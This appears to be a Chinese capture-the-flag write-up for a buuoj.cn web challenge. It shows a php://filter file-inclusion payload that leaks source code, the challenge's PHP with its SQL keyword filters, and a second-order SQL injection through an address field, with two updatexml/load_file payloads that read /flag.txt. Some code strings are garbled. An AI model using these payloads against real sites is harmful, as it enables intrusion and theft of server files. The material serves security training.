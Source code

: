 刚比赛完的一段时间期末考试云集，没有时间复现题目。趁着假期，争取多复现几道题。
#### 复现平台
buuoj.cn
#### 解题过程
首先进入题目页面
![index](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/index.png)

看起来没有什么特别的，就是一个可以提交信息的页面。查看响应报文也没有什么提示，但是在网页注释里有东西。

```html
<!--?file=?-->
```

这里可能有一个文件包含，尝试payload
```txt
http://xxx.xxx/index.php?file=php://filter/convert.base64-encode/resource=index.php
```
结果得到了当前页面经过加密后的源码
![源码](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/base64.png)

>有关伪协议的内容，可以大致参考下这篇文章：https://www.cnblogs.com/dubhe-/p/9997842.html

```php
<?php
ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
//HTML页面的代码省略，保留之前说的注释
<!--?file=?-->
```
用同样的方法，根据表单中暴露的位置，获取confirm.php,change.php,search.php等页面的内容。
```php
<?php
#change.php
require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "è®¢åä


```

```php
<?php
#search.php
require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>å§å:".$row['user_name']."</p><p>, çµè¯:".$row['phone']."</p><p>, å°å:".$row['address']."</p>";
    } else {
        $msg = "æªæ¾å°è®¢å!";
    }
}else {
    $msg = "ä¿¡æ¯ä¸å¨";
}
?>
#无用的HTML代码省略
```

分析代码可以知道，每个涉及查询的界面都过滤了很多东西来防止SQL注入，而且过滤的内容非常广泛，很难进行注入。

但是尽管username和phone过滤非常严格，而address却只是进行了简单的转义。进过分析便找到了可以利用的地方。这里提取了一些change.php中和address相关的部分。
```php
$address = addslashes($_POST["address"]);
if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
```
可以看出，address会被转义，然后进行更新，也就是说单引号之类的无效了。但是，在地址被更新的同时，旧地址被存了下来。如果第一次修改地址的时候，构造一个含SQL语句特殊的payload，然后在第二次修改的时候随便更新一个正常的地址，那个之前没有触发SQL注入的payload就会被触发。

思路有了以后，接下来就是构造payload，下面将借助报错注入来构造payload。

#### payload构造
```txt
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#
```
>直接load_file不能显示全，这里分两次构造payload。

```txt
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)#
```

结果如下
![半个flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/error.png)
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/flag.png)

#### payload使用

两个payload的使用方法为：

先在初始页面随便输数据，记住姓名电话
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/givemoney.png)

接着修改地址，地址修改为所构造的payload。修改之后再次修改，将地址设置为随便一个正常值，比如1，这样就能看到报错页面。
![修改地址](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/change.png)

如果想要使用新的payload，只需要删除订单在重复以上操作即可。
![删除订单](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/delete.png)
